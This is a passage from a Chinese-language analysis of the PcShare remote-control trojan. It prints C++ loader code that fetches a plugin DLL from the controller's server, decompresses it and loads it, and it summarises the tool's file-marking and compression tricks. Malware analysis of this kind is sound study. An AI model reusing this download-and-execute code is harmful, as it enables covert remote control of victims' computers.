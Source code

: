 ```
    CMyClientTran m_Tran;
    if(!m_Tran.Create(nCmd, m_DllInfo.m_ServerAddr, m_DllInfo.m_ServerPort, 
        m_DllInfo.m_DdnsUrl, m_DllInfo.m_PassWord) || !m_Tran.SendData(m_DllFileMd5, 16))
    {
        return NULL;
    }

    //接收文件长度
    DWORD nFileLen = 0;
    if(!m_Tran.RecvData(&nFileLen, sizeof(DWORD)))
    {
        return NULL;
    }

    //查看是否需要接收文件
    if(nFileLen == 0)
    {
        return LoadLibrary(pFilePath);
    }

    //接收文件
    BYTE* pFileData = new BYTE[nFileLen + 65535];
    ZeroMemory(pFileData, nFileLen + 65535);
    if(!m_Tran.RecvData(pFileData, nFileLen))
    {
        delete [] pFileData;
        return NULL;
    }

    //解压文件
    FCLzw lzw;
    if(!lzw.PcSaveData(pFileData, pFilePath))
    {
        delete [] pFileData;
        return NULL;
    }
    delete [] pFileData;

    //装载DLL文件
    return LoadLibrary(pFilePath);
}

```

校验插件文件完整性使用MD5算法，判断是否与控制端最新版本相符。相同则不在传输，貌似MD5算法目前不是太安全了吧。

0x03 文章小结
=====

Pcshare这款远控的代码规范方面还是比较工整的，代码缩进而且还有大量注释。非常适合初学入门和二次开发。据说早期有HTTP协议的版本但是现在代码丢失了，可惜了这款2010款是TCP版本对企业防火墙穿墙能力有限。比较有特色的思路：1、LZW编码压缩 2、改PE的DOS头“This”给文件做标记 3、利用空区段存放数据，看得出作者对安装用的EXE处理上花了不少功夫。

PcMain 主功能控制插件、PcShare 主控程序带界面将在第2篇中在分析，预知后事如何,请听下回分解。